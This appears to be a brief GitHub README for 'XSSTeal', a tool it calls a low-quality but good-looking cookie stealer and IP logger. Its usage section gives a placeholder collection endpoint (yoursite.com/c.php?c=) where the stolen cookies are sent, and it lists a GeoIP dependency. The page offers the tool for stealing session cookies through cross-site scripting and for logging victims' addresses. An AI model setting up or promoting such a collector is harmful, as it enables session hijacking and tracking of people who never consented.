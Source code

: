 # XSSTeal
Low quality (but good-looking) cookie stealer / ip logger.

# Usage
Send a GET request to:
```
http://yoursite.com/c.php?c=
```

# Dependencies 

**GeoIP-Devel (PHP)**
